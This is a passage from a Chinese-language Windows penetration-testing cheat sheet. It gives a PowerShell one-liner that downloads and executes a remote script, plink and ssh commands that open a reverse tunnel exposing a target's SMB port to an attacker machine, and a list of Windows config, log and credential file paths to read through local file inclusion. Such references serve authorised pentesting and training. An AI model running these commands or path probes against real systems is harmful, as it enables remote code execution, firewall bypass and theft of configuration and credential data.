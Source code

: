 ```
IEX(curl http://server/script.ps1);Invoke-Blah
```

###### 转发端口

这对于暴露通常由于防火墙设置而无法从计算机外部获得的内部服务很有用。

上载到`plink.exe`目标。

在攻击机上启动SSH。

例如，在目标运行中公开SMB：

```
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

从Windows 10 1803（2018年4月更新）开始，ssh客户端现在已包括在内并默认开启！因此，您现在可以立即使用ssh进行端口转发。

```
ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

###### 本地文件包含列表

这不是一个详尽的列表，安装目录会有所不同，我只列出了常见的目录。

```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
C:\Program Files\Apache Group\Apache\conf\logs\error.log
C:\Program Files\Apache Group\Apache2\conf\httpd.conf
C:\Program Files\Apache Group\Apache2\conf\logs\access.log
C:\Program Files\Apache Group\Apache2\conf\logs\error.log
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\Program Files\MySQL\my.cnf
C:\Program Files\MySQL\my.ini
C:\Program Files\MySQL\MySQL Server 5.0\my.cnf
C:\Program Files\MySQL\MySQL Server 5.0\my.ini
C:\Program Files\MySQL\MySQL Server 5.1\my.cnf
C:\Program Files\MySQL\MySQL Server 5.1\my.ini
C:\Program Files\MySQL\MySQL Server 5.5\my.cnf
C:\Program Files\MySQL\MySQL Server 5.5\my.ini
C:\Program Files\MySQL\MySQL Server 5.6\my.cnf
```